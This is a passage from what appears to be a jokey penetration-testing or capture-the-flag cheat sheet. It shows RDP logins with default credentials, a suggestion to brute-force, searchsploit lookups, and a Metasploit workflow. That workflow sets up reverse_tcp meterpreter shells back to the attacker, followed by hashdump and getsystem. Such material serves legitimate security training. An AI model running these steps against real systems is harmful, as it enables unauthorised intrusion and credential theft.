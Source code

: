 * * *

### Port 3389 – RDP

-   Because nothing says “secure” like RDP exposed to the internet.
-   Try creds, defaults, or just brute-force if you hate yourself.

```bash
xfreerdp /v:<ip> /u:administrator /p:password
```

* * *

# Step 4: Exploit Time

<img width="300" src="https://github.com/user-attachments/assets/a2dfcd16-dbd2-493a-a7da-cd1139de2dd1" />

### Searchsploit

-   Your offline exploit buddy who always forgets to shower.

```bash
searchsploit <service/version> searchsploit CVE-2025-1324
```

### Metasploit

-   When you want to look cool in front of your peers.
-   OK, but it is kind of actually really cool
-   Type exploit to exploit

```bash
msfconsole search cve:<whatever>
use <exploit>
set rhosts <target>
set lhost <me>
set lport <random_high_port>
[ other options as needed, show options bbygurl ]
exploit
?????
profit
```

**Payload options:**

-   Windows: `windows/meterpreter/reverse_tcp` (32-bit) / `windows/x64/meterpreter/reverse_tcp` (64-bit)
-   Linux: same deal, swap `linux` for `windows`
-   PHP: for when websites cry
**Meterpreter basics:**

-   `getuid` → who am I?
-   `ps` + `migrate` → musical chairs with processes
-   `hashdump` → Christmas morning for pentesters
-   `getsystem` → YOLO privilege escalation
-   `search -f *flag*` → when all else fails, ctrl+f your way to victory
* * *
